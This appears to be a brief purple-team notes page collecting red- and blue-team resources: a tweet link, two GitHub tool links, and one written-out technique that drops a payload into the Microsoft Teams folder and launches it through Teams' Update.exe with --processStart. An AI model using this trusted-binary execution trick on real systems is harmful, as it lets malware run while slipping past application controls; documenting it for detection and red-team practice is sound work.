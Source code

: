 # Purple Team - Set of techniques, tools and ideas related to Red & Blue Teams
https://twitter.com/MrUn1k0d3r/status/1143928885211537408?s=08

Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\
    Then
  %userprofile%\AppData\Local\Microsoft\Teams\Update.exe --processStart payload.exe --process-start-args "whatever args"

https://github.com/foi-oss/ortbot
https://github.com/SecurityRiskAdvisors/VECTR
